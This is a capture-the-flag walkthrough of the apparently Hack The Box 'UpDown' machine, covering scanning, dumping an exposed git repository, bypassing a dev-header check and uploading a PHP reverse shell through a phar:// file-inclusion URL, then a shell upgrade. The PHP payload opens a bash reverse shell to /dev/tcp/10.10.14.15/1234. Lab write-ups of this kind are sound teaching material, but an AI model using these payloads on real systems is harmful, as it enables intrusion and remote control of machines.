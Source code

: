 ```yaml
---
title: "UpDown - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## UpDown
![](https://kar0nx.github.io/assets/images/writeup/d7a56d5f25100d0a918b90de80122f82.png)
## Reconnaissance

IP: 10.10.11.177
## NMAP

```
nmap -T4 -p- -A 10.10.11.177
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 06:14 UTC
Nmap scan report for 10.10.11.177
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:1f:98:d7:c8:ba:61:db:f1:49:66:9d:70:17:02:e7 (RSA)
|   256 c2:1c:fe:11:52:e3:d7:e5:f7:59:18:6b:68:45:3f:62 (ECDSA)
|_  256 5f:6e:12:67:0a:66:e8:e2:b7:61:be:c4:14:3a:d3:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Is my Website up ?
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   31.01 ms 10.10.14.1
2   31.09 ms 10.10.11.177

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.52 seconds
```

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902081423.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902082439.png)

ffuf found /dev but there is nothing more, also find subdirectory `http://siteisup.htb` but cannot open it. Let's dig deeper and scan again

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902082009.png)

ok we got .git. 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902083624.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902083727.png)

Just dump it to easier enumeration

```
git-dumper http://siteisup.htb/dev/.git/ .
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902084231.png)

I found interesting commit with comment about new technique to protect dev vhost

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902090015.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902090233.png)

ok, we from git logs we know that we need to add Special-Dev: only4dev header to connect to dev.siteusup.htb, let's try it 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902091249.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902091257.png)

add header with Modify Header Value
https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902093117.png)

```
<?php 

$descriptorspec = [ 

    0 => ["pipe", "r"],  // STDIN 

    1 => ["pipe", "w"],  // STDOUT 

    2 => ["pipe", "w"],  // STDERR 

]; 

$command = "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.15/1234 0>&1'"; 

$process = proc_open($command, $descriptorspec, $pipes); 

if (is_resource($process)) { 

    fclose($pipes[0]); // Close STDIN 

    fclose($pipes[1]); // Close STDOUT 

    fclose($pipes[2]); // Close STDERR 

    proc_close($process); 

} 

?>
```

save as rev.php, then zip rev.abc upload and navigate to :

```
http://dev.siteisup.htb/?page=phar://uploads/22fa9abfe9c50075a95d916ad666e595/rev.abc/rev
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902094140.png)

we got reverse shell
Upgrade to TTY

```
python3 -c 'import pty; pty.spawn("/bin/sh")' 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902094658.png)

```
__import__('os').system('/bin/bash')
```

https://gtfobins.github.io/gtfobins/easy_install/

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902094846.png)